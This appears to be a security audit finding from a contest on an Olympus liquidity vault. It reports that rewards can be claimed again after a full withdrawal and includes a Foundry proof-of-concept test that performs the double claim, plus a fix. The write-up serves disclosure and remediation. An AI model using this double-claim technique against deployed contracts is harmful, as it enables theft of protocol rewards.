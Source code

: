 modern_Alchemist_00

high

# [H] - Reward can be claimed again after calling withdraw with full amount

## Summary
withdraw already calls an internal function that collects the rewards. Therefore, a user can claim the rewards again even after withdrawing the full amount.

## Vulnerability Detail
The withdraw function calls the internal function _withdrawUpdateRewardState, which sends the rewards. However, even after that, when claimRewards is called, we still receive the full reward amount, which should not be possible.

Here's a test that confirms this:-
```solidity
function testCorrectness_claimAfterWithdrawPossible() public{
        vm.prank(hacker);
        liquidityVault.deposit(WSTETH_AMOUNT, 0);
        vm.warp(block.timestamp + 10);

        console2.log("Internal Rewards after DEPOSIT",ldo.balanceOf(hacker));
        console2.log("External Rewards after DEPOSIT",externalReward.balanceOf(hacker));

        uint256 hackerLpPosition = liquidityVault.lpPositions(hacker);
        console2.log("LP Position of hacker before WITHDRAW", hackerLpPosition);
        vm.prank(hacker);
        liquidityVault.withdraw(hackerLpPosition, minTokenAmounts_, true);

        console2.log("Internal Rewards after WITHDRAW",ldo.balanceOf(hacker));
        console2.log("External Rewards after WITHDRAW",externalReward.balanceOf(hacker));

        console2.log("LP Position of hacker after WITHDRAW", liquidityVault.lpPositions(hacker));

        vm.prank(hacker);
        liquidityVault.claimRewards();

        console2.log("Internal Rewards after CLAIM",ldo.balanceOf(hacker));
        console2.log("External Rewards after CLAIM",externalReward.balanceOf(hacker));
    }
```

## Impact
It is possible for anyone to easily obtain more rewards than what is allowed by the protocol.

## Code Snippet
- https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L252

## Tool used
Manual review, Foundry

## Recommendation
Add a check and a state variable that tracks the rewards of each person. And reduce it when the rewards are claimed.
